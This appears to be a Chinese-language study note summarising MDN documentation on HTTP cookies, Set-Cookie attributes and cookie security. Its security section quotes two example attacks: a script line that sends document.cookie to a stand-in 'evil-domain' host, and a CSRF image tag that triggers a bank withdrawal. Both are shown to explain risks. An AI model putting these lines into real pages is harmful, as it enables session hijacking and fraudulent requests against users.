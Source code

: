 ```yaml
---
title: MDN Cookie
date: 2017-06-07
tags: 
	- cookie
	- mdn
categories: 
	- web
---
```

Cookie主要用在以下三个方面:

- 会话状态管理（如用户登录状态、购物车）
- 个性化设置（如用户自定义设置）
- 浏览器行为跟踪（如跟踪分析用户行为）


### Cookie
HTTP Request Header 
> https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cookie
- Cookie 头可能会被全部忽略，因为浏览器可能会因为隐私原因禁用cookie

### Set-Cookie
HTTP Response Header
> https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie

- 语法
```
Set-Cookie: <cookie-name>=<cookie-value> 
Set-Cookie: <cookie-name>=<cookie-value>; Expires=<date>
Set-Cookie: <cookie-name>=<cookie-value>; Max-Age=<non-zero-digit>
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>
Set-Cookie: <cookie-name>=<cookie-value>; Path=<path-value>
Set-Cookie: <cookie-name>=<cookie-value>; Secure
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly

Set-Cookie: <cookie-name>=<cookie-value>; SameSite=Strict
Set-Cookie: <cookie-name>=<cookie-value>; SameSite=Lax

// Multiple directives are also possible, for example:
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>; Secure; HttpOnly
```
- cookie-name 可以是任何US-ASCII字符，但是不包括（[CTLs](http://baike.baidu.com/item/%E6%8E%A7%E5%88%B6%E5%AD%97%E7%AC%A6)和( ) < > @ , ; : \ " /  [ ] ? = { }）
- cookie-value
可以加双引号表示，可以使用除CTLs外的US-ASCII字符，包括分号空格反斜杠等等
- 以__Secure-或者__Host-开头的cookie必须通在使用https协议的页面上，并且设置secure的flag，后者不允许拥有一个指定的domain，path必须为"/"
- Expire=<date>
cookie的过期时间，在没有指定的情况下，cookie会被认定为session cookie，session cookie会在关闭浏览器时被清除，但是由于大多数浏览器有cookie restore的机制，所以会导致再次打开浏览器时，这些session cookie会依然存在
- Max-Age=<non-zero-digit>，距离cookie过期的时间，作用和Expire相同，但优先级比Expire高
- Domain=<domain-value> 指定该cookie可以被发送到哪些域名下，默认值为当前document的域名，域名的前导"."会被忽略（这点和实际不一样，不知道为啥）
- Path=<path-value>
指定请求资源中必须存在与其匹配的URL地址，地址"/"可以匹配任意子目录，例如 "/docs", "/docs/Web/", or "/docs/Web/HTTP"
- Secure
以Secure标签标识的cookie必须以HTTPS和SSL协议发送请求，从Chrome52+和FF52+版本之后，非HTTPS协议的网站不能设置Secure cookies了


### Document.cookie

> https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie

### 安全和隐私
- 会话劫持和XSS
```
//将当前站点的cookies通过请求发送到不安全的服务器上
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
- 跨站请求伪造（[CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)）
```
//发送跨站请求，利用当前存储的cookies使请求成功
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
- 第三方Cookie
Domain和document.domain相同的cookie被称为第一方cookie，不同的称为第三方cookie，前者只与当前domain的服务器进行交互，后者主要用于网络追踪和广告

- [`Do Not Track`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/DNT) request header, 用于请求头中，标记用户更倾向于隐私保护还是提供个性化内容，值为0或1，也可以通过`navigator.doNotTrack`获取其中的值